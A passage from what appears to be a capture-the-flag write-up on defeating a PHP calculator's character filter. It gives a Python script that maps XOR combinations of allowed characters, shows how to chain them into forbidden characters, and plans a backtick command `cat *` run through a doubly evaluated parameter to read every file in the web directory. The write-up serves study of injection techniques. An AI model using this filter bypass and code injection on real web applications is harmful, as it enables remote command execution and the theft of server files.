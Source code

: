 Now into the most challenging part. How do we know the values we have to XOR to obtain a determinate output? We can obtain the posible values by combinating all the values and register the result into a dictionary. We can do it in python for example:

{% highlight python %}

	from itertools import combinations_with_replacement
	import json

	val_chars = "0123456789+-*/()~^|&."
	comb = combinations_with_replacement(val_chars, 2)

	all_combs = {}
	for i in list(comb):
		key = chr(ord(i[0]) ^ ord(i[1]))
		all_combs[key] = i
	print(json.dumps(all_combs, indent=4))

{% endhighlight %}

A formatted output with a part of the generated dictionary is:

```
    "G": "('9', '~')",
    "g": "('9', '^')",
    "E": "('9', '|')",
    "U": "(')', '|')",
    "u": "('+', '^')",
    "W": "(')', '~')",
    "S": "('/', '|')",
    "s": "('-', '^')",
    "Q": "('/', '~')",
    "T": "('(', '|')",
    "t": "('*', '^')",
    "V": "('(', '~')",
    "q": "('/', '^')",
    "v": "('(', '^')",
```

What happens if we need to generate a character that is not on this list? Well we can merge the generated caracters and the accepted ones to generate new combinations. For example to generate character **\`** we can use this combination:

```
` = ('R'^'2')

'R' is not on the valid characters but can be generated from valid characters:

'R' = ('|'^'.')

Therefore:

` = (('|'^'.')^'2') = ('|'^'.'^'2')
```

Now that we have the method to inject text, let's define what text do we need to retrieve the flag.
The parameter "clac" is going to ve evaluated twice: First eval() will calculate all XORs and form the desired string. The second eval will "echo" the returned information from our payload. 
Supposing the flag is within the same web directory, we can execute commands to retrieve the flag. We can try to generate the payload "shell_exec(ls)" or "shell_exec('cat \*')" but they are too long when translated into XOR operations. 
In PHP we can use the [backticks](https://www.php.net/manual/en/language.operators.execution.php) to execute a command, which is a similar funcitonality than the shell_exec() function. We aimed to execute the command \`cat \*\` and retrieve the content of all the files within the web directory.
